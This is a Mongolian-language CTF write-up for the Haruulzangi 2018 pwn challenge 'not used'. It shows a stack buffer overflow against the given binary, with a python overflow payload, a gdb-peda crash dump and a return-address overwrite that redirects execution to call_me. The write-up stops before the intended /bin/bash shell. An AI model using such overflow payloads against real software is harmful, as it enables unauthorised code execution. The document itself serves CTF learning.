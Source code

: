 # Haruulzangi 2018 Round 1 : not used 

**Category:** Pwn
**Points:** 964
**Solves:** 5
**Description:**

>nc 218.100.84.106 9006 дээр хавсралт дээрх elf ажиллаж байна.
>
>link [notused](notused)
>
>link [notused.c](notused.c)
>
>--
>reamb


## Write-up

Өгөгдсөн `notused` binary файлыг ажилуулвал доорхи үр дүн гарж байв. 
```
[root@reamb home]# ./notused
[+] Feed me more!!!
hello
[+] zuv baildaa
[root@reamb home]#
```
 notused.c дээр тухайн програмын бүрэн код хуулагдсан байна. Source код дээрээс харвал дээрх мөрүүд нь хамгийн сонирхолтой хэсгүүд юм.
```
char * n0t_us3d = "/bin/bash";

int    call_me() {
        return system("/bin/date");
}


``` 
Энд хэзээ ч дуудагдахгүй n0t_us3d хувьсагчын утгыг system() дотор дуудаж чадвал бид shell ажиллуулж чадах юм. 

Юны түрүүнд binary файл дээр бүффер -ийн хэмжээг тооцолж үзье. үүнийг уламжиллалт аргаар ольё. 
```
[root@reamb home]# python -c 'print "A"*128' | ./notused
[+] Feed me more!!!
[+] zuv baildaa
Segmentation fault
```
128 байт аас эхлээд buffer дүүрч алдаа өгч байна. энийг souce code дээрээс  `char buf[128];` -ээр олж болно. Бид stack-г дүүргэн буцах ROP дээр call_me ажилуулах гэж үзье. 

>StackFrame нь  Stack(128 bytes) + ebp(4 bytes) + return adrress(4 bytes)  байдаг билээ. 

Үүнийг gdb дээр мөн шалгалт хийж тогтооё.

```
[root@reamb home]# python -c 'print "A"*128 + "BBBB"+"CCCC"+"DDDD"' > rea.txt
[root@reamb home]#
```
```

[root@reamb home]# gdb ./notused
GNU gdb (GDB) Red Hat Enterprise Linux 7.6.1-110.el7
Copyright (C) 2013 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-redhat-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /home/notused...done.
gdb-peda$ run < rea.txt
Starting program: /home/./notused < rea.txt
[+] Feed me more!!!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x8d
EBX: 0xf7fca000 --> 0x1c6da8
ECX: 0xffffd584 ('A' <repeats 128 times>, "BBBBCCCCDDDD\n\206\004\b\024")
EDX: 0x100
ESI: 0x0
EDI: 0x0
EBP: 0x42424242 ('BBBB')
ESP: 0xffffd60c ("DDDD\n\206\004\b\024")
EIP: 0x43434343 ('CCCC')
EFLAGS: 0x10203 (CARRY parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x43434343
[------------------------------------stack-------------------------------------]
0000| 0xffffd60c ("DDDD\n\206\004\b\024")
0004| 0xffffd610 --> 0x804860a (<_fini+6>:      (bad))
0008| 0xffffd614 --> 0x14
0012| 0xffffd618 --> 0x0
0016| 0xffffd61c --> 0xf7e1d1b3 (<__libc_start_main+243>:       mov    DWORD PTR [esp],eax)
0020| 0xffffd620 --> 0x1
0024| 0xffffd624 --> 0xffffd6b4 --> 0xffffd7fb ("/home/./notused")
0028| 0xffffd628 --> 0xffffd6bc --> 0xffffd80b ("XDG_SESSION_ID=504")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x43434343 in ?? ()
Missing separate debuginfos, use: debuginfo-install glibc-2.17-222.el7.i686
```

Эндээс программ нь 0x43434343 буюу CCCC хаяг дээр кодыг ажилуулах гээд алдаа зааж байгаа нь харагдаж байна.  тэгвэл бид CCCC -н хаягыг call_me() ээр сольж бичиж үзье. call_me() ийн хаягыг эхэлж ольё.

```
[root@reamb home]# objdump -D ./notused |grep call_me
080484dd <call_me>:
```

фүнкцийн санах ой дээрх хаяг олдлоо. үүнийг stack руу бичих тул little indian буюу урвуугаар бичнэ.
``` 
[root@rea home]# python -c 'print "A"*128 + "BBBB"+"\xdd\x84\x04\x08"' | ./notused
[+] Feed me more!!!
Mon Oct  8 17:13:01 +08 2018
```

бидний хүссэн call_me -г дуудаж чадлаа. Одоо харин system(/bin/bash) хэрхэн дуудах вэ? 









## Other write-ups and resources

* none yet
